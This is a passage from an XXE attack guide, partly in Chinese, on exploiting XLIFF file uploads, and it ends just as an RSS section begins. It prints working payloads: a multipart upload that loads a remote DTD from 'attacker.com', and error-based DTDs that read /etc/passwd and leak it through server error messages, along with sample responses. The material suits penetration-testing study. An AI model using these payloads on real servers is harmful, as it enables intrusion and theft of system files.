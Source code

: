 服务器响应时出错：

```json
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

#### Exfiltrating Data via Out of Band

```xml-dtd
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

#### Exfiltrating Data via Error Based

DTD文件：

```xml-dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

服务器响应：

```xml-dtd
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

好消息是当请求一个不存在的文件时会将反映在错误消息中。接下来是添加文件内容。

DTD File:

```xml-dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

通过HTTP发送的错误输出中成功打印了文件的内容。

### RSS - XEE

使用RSS格式的XML也可利用出 XXE 的漏洞

#### Ping back
